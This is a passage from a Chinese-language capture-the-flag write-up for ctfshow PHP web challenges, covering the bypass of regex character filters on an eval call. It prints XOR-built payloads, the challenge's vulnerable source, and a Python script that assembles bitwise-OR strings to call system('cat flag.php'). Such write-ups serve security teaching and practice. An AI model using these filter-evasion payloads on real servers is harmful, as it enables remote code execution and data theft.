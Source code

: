 **payload**

只是多过滤了个下划线`_`
中文做变量名

```php
$哼="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$哼();
```

+做变量名

```php
${"`{{{"^"?<>/"}['+']();&+=getFlag
```



### ctfshow web42题

题目源代码

```php
<?php
    if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

分析代码，正则过滤了所有数字以及大小写字母和部分符号，接下来尝试构造字符串绕过

& 按位与 |按位或 ^ 按位异或 ~取反 为四大位运算符，其中按位异 | 没有过滤，过滤的字符是防异或、自增和取反构造字符

**python脚本如下** 

```python
import re
import requests

url = 'http://59b03ba7-ad83-4a88-bd39-ff72f6222dfd.challenge.ctf.show/'

li = []
for i in range(0,256):
    c = chr(i)
    str_re = re.match(r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-',c, re.I)
    if not str_re:
        li.append(i)
    else:
        continue

system = "system"
args = 'cat flag.php'
str1 = ''
str2 = ''
def fun(k,system):
    global str1,str2
    for i in range (0,len(li)):
        for j in range(i,len(li)):
            if(li[i]|li[j]==ord(system[k])):
                str1+=chr(li[i])
                str2+=chr(li[j])
                return

for k in range(0,len(system)):
    fun(k,system)
```